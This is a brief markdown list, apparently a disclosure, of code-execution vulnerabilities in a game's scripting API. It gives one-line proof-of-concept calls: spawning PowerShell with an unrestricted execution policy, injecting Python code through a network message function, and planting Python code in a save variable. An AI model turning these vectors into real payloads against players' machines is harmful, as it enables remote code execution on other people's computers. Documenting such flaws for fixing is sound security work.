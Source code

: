 # Vulnerabilities

- `Scrap.RunApp("C:/WINDOWS/System32/WindowsPowerShell/v1.0/powershell.EXE",'-NoProfile -ExecutionPolicy Unrestricted -Command "dir | out-file pwned.txt"')`
- `SNet.SendUsrString(<id>,"T<PythonCode>")`
- `Scrap.SetSaveVar("GameplayTime","<pythoncode>")`
